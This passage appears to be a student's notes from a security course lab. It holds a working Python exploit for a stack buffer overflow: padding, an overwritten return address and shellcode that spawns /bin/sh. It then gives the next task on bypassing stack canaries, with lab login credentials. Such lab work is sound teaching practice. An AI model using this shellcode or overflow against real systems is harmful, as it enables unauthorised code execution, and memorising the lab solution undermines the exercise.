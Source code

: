 

## Exploit GDB Output
> [!code]
> ![](Project_1.assets/image-20240301214218316.png)


## Solution Egg
> [!code]
```python
#!/usr/bin/env python3 import sys 
# Configure Python to print text strings like byte strings. Don't remove this! 

sys.stdout.reconfigure(encoding='latin1') 

SHELLCODE = \ '\x6a\x32\x58\xcd\x80\x89\xc3\x89\xc1\x6a' \ '\x47\x58\xcd\x80\x31\xc0\x50\x68\x2d\x69' \ '\x69\x69\x89\xe2\x50\x68\x2b\x6d\x6d\x6d' \ '\x89\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f' \ '\x62\x69\x6e\x89\xe3\x50\x52\x51\x53\x89' \ '\xe1\x31\xd2\xb0\x0b\xcd\x80' 

### YOUR CODE HERE ### print('\xd2'+'\x97'*148+'\xc0\xd7\xff\xff'+SHELLCODE+'\0')
```




# Q3 Stack Canary - Medium
> [!overview]
> `username`: polaris
> `password`: tolearn
> 
> For this question, **stack canaries are enabled**. You need to make sure the value of the canary isn’t changed when the function returns, but you still need to overwrite the RIP.
> 
> More detail see [Interactive Stack Canary Example](3_Mitigating_Vulnerabilities.md#Stack%20Canaries%20-%20Step%203#Example)
